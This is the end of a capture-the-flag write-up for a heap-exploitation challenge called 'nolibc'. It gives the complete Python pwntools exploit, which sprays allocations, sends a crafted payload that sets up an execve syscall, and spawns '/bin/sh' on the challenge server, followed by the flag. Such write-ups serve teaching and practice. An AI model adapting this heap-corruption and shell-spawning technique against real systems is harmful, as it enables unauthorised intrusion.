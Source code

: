 Nevertheless, after about 2 minutes we get our flag! Our final exploit:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./main")

context.binary = exe

if args.LOCAL:
    p = process([exe.path])
    if args.GDB:
        gdb.attach(p)
        pause()
else:
    p = remote("nolibc.chals.sekai.team", 1337, ssl=True)

def create_string(size: int, data: bytes):
    p.sendlineafter(b"Choose an option", b"1")
    p.sendlineafter(b"Enter string length:", str(size).encode())
    p.sendlineafter(b"string:", data)

def delete_string(idx: int):
    p.sendlineafter(b"Choose an option", b"2")
    p.sendlineafter(b"string to delete:", str(idx).encode())

# good luck pwning :)

p.sendlineafter(b"Choose an option", b"2")
p.sendlineafter(b"Username:", b"samuzora")
p.sendlineafter(b"Password:", b"password")
p.sendlineafter(b"Choose an option", b"1")
p.sendlineafter(b"Username:", b"samuzora")
p.sendlineafter(b"Password:", b"password")

for i in range(0xbf):
    print(i)
    create_string(0xef, b"asdf")

payload = b"a"*0x70
payload += p32(0x0)
payload += p32(0x1)
payload += p32(0x3b)
payload += p32(0x3)
create_string(0x7f, payload)

delete_string(0)

p.sendlineafter(b"Choose an option", b"5")
p.sendline(b"/bin/sh")

p.interactive()
# SEKAI{shitty_heap_makes_a_shitty_security}
```
